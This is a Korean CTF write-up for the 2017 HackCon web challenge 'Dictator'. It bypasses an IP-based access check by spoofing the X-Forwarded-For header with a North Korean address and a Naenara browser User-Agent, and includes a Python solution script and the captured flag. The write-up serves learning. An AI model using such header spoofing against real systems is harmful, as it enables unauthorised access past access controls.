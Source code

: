 # 2017 HackCon - [WEB] Dictator

## Key words

- X-Forwarded-For
- Guessing (Recon)

## Solution

문제에 접속하면 `Access Denied` 만 뜨고 별다른 정보가 없습니다. 

문제 명세를 다시 보면 다음과 같습니다.

```
Dictator 75

A dictator is creating a lot of fuss nowadays by claiming to have nuclear weapons. I somehow got access to his personal website that he uses to send instructions, but I cannot get in. Can you try?

Hint: you need to be living in that country to get access.
Hint2: north korea
```

힌트를 보면 서버에서 판단 했을 때, 접근한 아이피의 주소가 북한으로 나와야 할 것 같습니다. 따라서 요청 해더에 `X-Forward-For`를 이용합니다. 이 해더 필드는 `HTTP Proxy`나 로드 벨런서를 통해 웹 서버로 접속한 클라이언트의 아이피를 식별하기 위해 사용됩니다.

먼저 구글링을 통해 북한의 아이피가 `175.145.176.0 - 175.45.179.255` 대역임을 알았습니다. 이를 `X-Forwared-For` 해더에 넣어 요청을 합니다.

그러면 다음과 같은 응답이 옵니다.

```
You are not following the instructions given by the supreme-leader
```

그 이후론 완전 게싱인데 다른 라이트업을 통해 `User-Agent`를 북한에서 사용하는 웹 브라우저 이름으로 넣어야 하는 것을 알았습니다. (https://github.com/chmodxxx/HackConCTF_2017)

이 역시 구글링을 통해 알 수 있습니다. [Googling](https://www.whitehatsec.com/blog/north-koreas-naenara-web-browser-its-weirder-than-we-thought/)

`User-Agrnt`까지 내나라로 맞춰 보내면 플래그를 획득하게 됩니다.

## Solution Code

```python
import requests

url = "http://defcon.org.in:6063/index.php"

# north korea ip range : 175.145.176.0 - 175.45.179.255

headers = {
    "X-Forwarded-For": "175.45.176.0"
}

r = requests.get(url, headers=headers)

print r.headers
print r.content

'''
{'host': 'defcon.org.in:6063', 'content-type': 'text/html; charset=UTF-8', 'connection': 'close', 'x-powered-by': 'PHP/7.0.22-0ubuntu0.16.04.1'}
You are not following the instructions given by the supreme-leader
'''

# https://www.whitehatsec.com/blog/north-koreas-naenara-web-browser-its-weirder-than-we-thought/

headers = {
    "X-Forwarded-For": "175.45.176.0",
   "User-Agent": "Mozilla/5.0 (X11; U; Linux i686; ko-KP; rv: 19.1br) Gecko/20130508 Fedora/1.9.1-2.5.rs3.0 NaenaraBrowser/3.5b4"
}

r = requests.get(url, headers=headers)

print r.headers
print r.content
```

## Result

```
{'host': 'defcon.org.in:6063', 'content-type': 'text/html; charset=UTF-8', 'connection': 'close', 'x-powered-by': 'PHP/7.0.22-0ubuntu0.16.04.1'}
You are not following the instructions given by the supreme-leader
{'host': 'defcon.org.in:6063', 'content-type': 'text/html; charset=UTF-8', 'connection': 'close', 'x-powered-by': 'PHP/7.0.22-0ubuntu0.16.04.1'}
d4rk{Welcome_To_DictatorRuling.TogetherweshalltkeWorld}c0de
```